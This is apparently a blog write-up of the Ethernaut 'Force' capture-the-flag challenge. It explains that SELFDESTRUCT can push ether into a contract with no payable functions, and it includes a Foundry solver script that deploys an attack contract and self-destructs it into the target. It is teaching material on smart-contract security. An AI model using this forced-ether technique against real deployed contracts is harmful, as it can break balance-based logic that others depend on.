


in this challenge we are given this contract and our goal is to increase the balance of this contract, this might be weird because this contract is empty!

<!--more-->


- **Platform**: Ethernaut
- **Challenge**: Force
- **Category**: Blockchain


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                    */ }
```

lets first recall how we send ether, we do that by calling `recieve` or `fallback` functions right ? this is done via the `CALL` opcode that looks into the function's code and execute it and that function logic will transfer ether

another way to send ether is via the `SELFDESTRUCT` opcode, what makes this opcode different from `CALL` is that it doesn't look at the contract code, the `evm` just executes it and it will directly change the state of the blockchain, meaning it will transfer ether from the the function that is triggering it to the target address, more precisely :

when contract `A` executes **`SELFDESTRUCT(target_address)`**, the target address will receive all the ether of contract A regardless the the `bytecode deployed`

now lets go and solve the challenge, first we check the balance of the contract that should be 0 :



perfect, now we write the solver script

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Force.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract attack {
  Force force ;
  constructor(Force _force) public payable {
    force = _force;
  }
  function pwn() external {
    selfdestruct(payable(address(force)));
  }
}

contract Solver is Script {
  Force instance = Force(payable(0x90031bF7c7F341bb8d0c92bA9D9A1BE5AA56009E));

  function run() external {
     vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
     attack p = new attack{value : 1 wei}(instance);
     p.pwn();
     console.log(address(instance).balance);
  }
}
```

after running this we get :



so gg the challenge is solved !
